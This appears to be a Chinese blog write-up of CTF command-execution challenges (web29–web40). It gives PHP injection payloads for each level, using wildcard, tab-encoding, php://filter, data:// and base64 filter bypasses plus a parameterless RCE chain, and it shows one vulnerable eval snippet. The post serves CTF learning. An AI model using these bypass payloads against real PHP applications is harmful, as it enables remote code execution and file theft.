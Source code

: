 ```yaml
---
layout:    post
title:     命令执行入门CTF
subtitle:  学习学习
date:      2021-04-20
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:

   - 命令执行
---
```


#### web29

过滤了flag，可以使用通配符绕过：

```
?c=system("cat f*");
```

#### web30

过滤了``system|flag``，用一个代替``system`的函数即可：

```
?c=passthru("cat f*");
```

#### web31

过滤了``system|cat|flag|空格``，用其它命令代替cat和其他编码绕过空格即可：

```
?c=passthru("tac%09f*");
```

#### web32

在前面的基础上，过滤了括号，但没过滤双引号：

小知识点：include不用括号，分号可以用``?>``代替。

```
?c=include$_GET["a"]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

#### web33~36

过滤了引号等：

```
?c=include$_GET[a]?>&a=php://filter/read=convert.base64-encode/resource=flag.php
```

#### web37

这里用了PHP文件包含函数include()，可以利用伪协议读flag。

``data://``，类似``php://input``，可以让用户来控制输入流，当它与包含函数结合时，用户输入的``data://``流会被当作PHP文件执行。

```
?c=data://text/plain,<?php system("cat f*");
```

#### web38

在web37的基础上，过滤了PHP，利用base64进行绕过：

```
?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgZioiKTs=
```

#### web39

在38的基础上，采用了拼接，在包含的字符串后加上了``.php``后缀：

```
?c=data://text/plain,<?php system('cat f*');?>
```

#### web40

```
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
        eval($c);
    }
        
}else{
    highlight_file(__FILE__);
} 
```

这里过滤了引号、美元符号、冒号，连为协议也不行了，构造无参数函数进行文件读取。

这里要学习一下无参数RCE(remote command/code execute)-->[hrer](https://www.freebuf.com/articles/system/242482.html)。

**array_reverse()：**以相反的元素顺序返回数组。

**show_source()**是highlight_file()的别名。

构造payload：

```
?C=show_source(next(array_reverse(scandir(current(localeconv())))));
```

#### web41

#### web42

